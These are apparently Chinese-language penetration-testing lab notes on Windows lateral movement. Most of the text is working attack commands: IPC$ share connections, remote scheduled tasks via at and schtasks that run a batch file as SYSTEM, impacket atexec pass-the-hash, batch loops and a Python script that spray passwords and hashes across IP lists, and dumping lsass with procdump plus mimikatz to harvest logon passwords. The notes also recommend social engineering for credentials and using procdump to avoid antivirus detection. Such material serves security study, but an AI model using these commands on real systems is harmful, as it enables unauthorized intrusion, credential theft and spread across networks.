 # at&schtasks

建立IPC失败的原因

- 目标系统不是NT或以上的操作心痛
- 对方没有打开IPC$共享
- 对方未开启139、445端口,或者被防火墙屏蔽
- 输出命令、账号密码有错误

```powershell
#at< Windows2012
net user 
1.建立IPC$连接
P.S. 如口令、用户名为空，则建立了所谓“空连接”，这种连接权限有限，仅为everyone级权限；因此，建议在通过社会工程等手段获取用户、口令后再尝试。
2.copy要执行的命令脚本到目标主机
3.查看目标时间,创建计划任务(at、schtashk)
4.删除IPC链接
net use \\目标服务器IP地址\IPC$ "口令" /user:用户名 #工作组
net use \\目标服务器IP地址\IPC$ "口令" /user:domain\用户名 #域工作组
copy c:\\add.bat \\192.168.10.2\c$
net use z: \\ip\c$ #将ip的c盘映射到本地的z盘
dir \\ip\c$ #查看当前目录下的文件
at \\192.168.10.3 c:add.bat #执行命令

###schtasks
schtasks /create /s 192.168.10.3 /u 用户名 /p 密码 /ru "SYSTEM" /tn adduser /sc DAILY /st 19:39 /tr c:\\add.bat /F #创建adduser任务
schtasks /run /s 192.168.10.3 /tn adduser /i #运行adduser任务
shctasks /delete /s 192.168.10.3 /tn adduser /f #删除adduser任务
```

**at**

![image-20210410113031565]([横向渗透]at&schtasks/image-20210410113031565.png)

![image-20210410114731445]([横向渗透]at&schtasks/image-20210410114731445.png)

![image-20210410114407045]([横向渗透]at&schtasks/image-20210410114407045.png)

![image-20210410114639078]([横向渗透]at&schtasks/image-20210410114639078.png)

**schtasks**

2003可能会测试不起,这里用的win7,提前放好了add.bat文件

![image-20210410121412774]([横向渗透]at&schtasks/image-20210410121412774.png)



![image-20210410120834301]([横向渗透]at&schtasks/image-20210410120834301.png)

每次输入时都需要输入密码

![image-20210410121509944]([横向渗透]at&schtasks/image-20210410121509944.png)

成功

# atexec-impacket

上面都用的是明文密码,但在高版本中,win的内存里不会保存明文密码,但是在实际通讯中,只需要加密的密码就可以了,所以获取加密密码仍然可以进行通信,但是要借助工具

明文hash传递

```powershell
atexec.exe
./administrator:123.com@192.168.10.3 "whoami"

atexec.exe
./administrator:123.com@192.168.10.3 "ipconfig"

atexec.exe -hashes :afffeba176210fad4628f0524bfe1942 win7\administrator@192.168.10.3 "whoami"
```

![image-20210410125251196]([横向渗透]at&schtasks/image-20210410125251196.png)

# 批量利用

```php
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "密码" /user: "用户名" //ips.txt文件中保存的是探测的存活ip   #批量检测IP对应明文连接

FOR /F %%i in (ips.txt) do atexec.exe ./administrator:"密码" #批量检测IP对应明文回显版

FOR /F %%i in (pass.txt) do atexec.exec.exe ./administrator:%%i@192.168.10.1 whoami #批量检测明文对应IP回显版

FOR /F %%i in (hash.txt) do atexec.exec.exe -hashes :%%i ./administrator@192.168.10.1 whoami #批量检测HASH对应IP回显版
   
```

一般只能有一个变量,如果想要多个变量,可以使用python打包成exe文件

```python
pyinstaller -F test.py  #生成可执行EXE,会生成在Scripts/dist文件下
import os,time 
ips={
    
}
users={
    
}
passs={

}
for ip in ips:
    for user in users:
        for mima in passs:
            exec="net use \\"+"\\"+ip+'\ipc$'+mima+' /user:god\\'+user
            print('--->'+exec+'<---')
            os.system(exec)
            time.sleep(1)
```

# Procdump+Mimikatz抓取密码

```php
procdump是微软开发的所以不会被杀，如果mimikatz被杀的情况下可以用这个配合导出密码

#procdump配合mimikatz

procdump -accepteula -ma lsass.exe lsass.dmp

mimikatz上执行：

privilege::debug

sekurlsa::minidump lsass.dmp

sekurlsa::logonPasswords full
#Pwdump7

#QuarksPwdump(密码破解工具)

https://www.freebuf.com/sectool/164507.html 
```

